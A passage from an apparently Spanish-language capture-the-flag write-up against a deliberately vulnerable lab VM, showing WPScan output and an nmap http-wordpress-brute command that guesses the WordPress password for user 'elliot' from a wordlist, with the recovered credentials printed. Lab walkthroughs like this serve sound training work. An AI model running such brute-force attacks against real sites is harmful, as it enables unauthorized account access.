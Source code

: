 [i] The main theme could not be detected.

[+] Enumerating All Plugins

[i] No plugins Found.

[+] Enumerating Config Backups
Checking Config Backups - Time: 00:00:00 &lt;==================================================&gt; (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Finished: Sat Dec 22 19:53:46 2018
[+] Requests Done: 22
[+] Cached Requests: 27
[+] Data Sent: 9.665 KB
[+] Data Received: 186.248 KB
[+] Memory used: 47.199 MB
[+] Elapsed time: 00:00:02</pre>
&nbsp;

Si accedemos al login de wordpress y probamos de acceder con el usuario elliot, que aparece en el diccionario, nos muestra el siguiente mensaje:

<img class="size-medium wp-image-125 aligncenter" src="https://labs.dokistudio.es/wp-content/uploads/2018/12/01-276x300.png" alt="" width="276" height="300" />
<h2>Explotación</h2>
Ya tenemos el usuario solo nos hace falta el password. Con nmap lanzamos un ataque de bruteforce contra el login de wordpress, utilizando como diccionario de password el fichero "fsocity.dic" y como usuario "user.txt" que sólo contiene el usuario "elliot":
<pre>root@kali:/tmp# cat user.txt
elliot

root@kali:/tmp# nmap -sV -p 80 --script http-wordpress-brute -script-args 'passdb=/tmp/fsocity.dic,userdb=/tmp/user.txt' 172.31.255.128
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-22 20:08 CET
Nmap scan report for 172.31.255.128
Host is up (0.00039s latency).

PORT STATE SERVICE VERSION
80/tcp open http Apache httpd
|_http-server-header: Apache
| http-wordpress-brute:
| Accounts:
| elliot:ER28-0652 - Valid credentials
|_ Statistics: Performed 11443 guesses in 230 seconds, average tps: 48.5
MAC Address: 08:00:27:F3:16:D5 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 236.81 seconds

</pre>
Ahora que tenemos las credenciales ya podemos acceder al panel de gestión de wordpress:
